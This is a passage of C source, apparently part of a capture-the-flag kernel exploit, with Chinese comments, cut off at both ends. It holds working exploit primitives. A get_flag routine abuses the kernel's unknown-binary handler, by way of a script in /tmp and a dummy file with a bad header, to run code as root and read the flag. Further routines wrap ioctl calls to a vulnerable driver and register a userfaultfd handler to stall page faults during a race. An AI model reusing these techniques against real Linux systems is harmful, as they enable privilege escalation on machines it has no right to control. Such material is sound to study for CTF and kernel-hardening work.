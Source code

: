 ```c
}
void get_flag(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /home/user/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
    system("/tmp/dummy");
    sleep(0.3);
    system("cat /home/user/flag");
    exit(0);
}

static void get_hash(char *content, char *buf) {
	int ix,jx;
	unsigned unit = FILE_MAXSZ / HASH_SIZE;
	char c;
	for (ix = 0; ix != HASH_SIZE; ++ix) {
		c = 0;
		for(jx = 0; jx != unit; ++jx) {
			c ^= content[ix * unit + jx];
		}
		buf[ix] = c;
	}
}

void hash_obj(hash_object* req){
    ioctl(f1,0xdead0001,req);
}
void amend_obj(log_object* req){
    ioctl(f1,0xdead0003,req);
}
void get_obj(log_object* req){
    ioctl(f1,0xdead0004,req);
}

void registerUserfault(void *fault_page,void *handler)
{
   pthread_t thr;
   struct uffdio_api ua;
   struct uffdio_register ur;
   unsigned long long uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // Enable the close-on-exec flag for the new userfaultfd file descriptor; 非阻塞才能让双线程有效
   ua.api = UFFD_API;
   ua.features    = 0;
   if (ioctl(uffd, UFFDIO_API, &ua) == -1){
      printf("[-] ioctl-UFFDIO_API");
      exit(-1);
    }
   ur.range.start = (unsigned long)fault_page; // 我们要监视的区域
   ur.range.len   = PAGE_SIZE;
   ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
   if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1){ // 注册缺页错误处理，当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
      printf("[-] ioctl-UFFDIO_REGISTER");
      exit(-1);
    }
   //开一个线程，接收错误的信号，然后处理
   int s = pthread_create(&thr, NULL,handler, (void*)uffd);
   if (s!=0){
      printf("[-] pthread_create");
      exit(-1);
   }
}
static void *
```
